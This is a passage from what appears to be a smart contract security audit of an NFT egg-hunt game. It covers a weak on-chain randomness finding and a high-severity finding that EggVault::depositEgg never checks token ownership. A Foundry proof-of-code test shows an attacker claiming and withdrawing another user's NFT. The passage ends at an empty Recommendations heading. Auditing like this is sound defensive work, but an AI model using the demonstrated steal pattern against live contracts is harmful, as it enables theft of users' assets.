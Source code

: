 Using on-chain values as a randomness seed is a [well-documented attack vector](https://betterprogramming.pub/how-to-generate-truly-random-numbers-in-solidity-and-blockchain-9ced6472dbdf) in the blockchain space.

**Recommended Mitigation:** Consider using a cryptographically provable random number generator such as [Chainlink VRF](https://docs.chain.link/vrf)


### [H-2] There is no check if the egg depositer is the egg owner

**Summary**

The `EggVault::depositEgg` function has no checking system for a depositor, allowing anyone to call this function without ensuring that the `depositor` is the rightful owner of the `tokenId`.

**Vulnerability Details**

**Proof of Concept:**

1. Mint egg to vault
2. Attacker calls `EggVault::depositEgg` and the function will think that this is a valid `depositor`
3. Attacker calls `EggVault::withdrawEgg`, freely withdraw his stolen NFT from the vault.

**Proof of Code:**

Add the following code to the `EggHuntGameTest.t.sol` file.

```Solidity
    function test_Attacker_Steals_Egg_FromVault() public {
        vm.prank(address(game));
        nft.mintEgg(address(vault), 999);

        // assuming bob is the attacker
        vm.prank(bob);
        vault.depositEgg(999, bob);

        assertEq(vault.eggDepositors(999), bob);
        assertTrue(vault.isEggDeposited(999));

        vm.prank(bob);
        vault.withdrawEgg(999);

        assertEq(nft.ownerOf(999), bob);
    }
```

**Impact**

1. Attackers can withdraw other people's NFTs
2. Original depositor cannot withdraw his NFT

**Tools Used**

1. Foundry

**Recommendations**
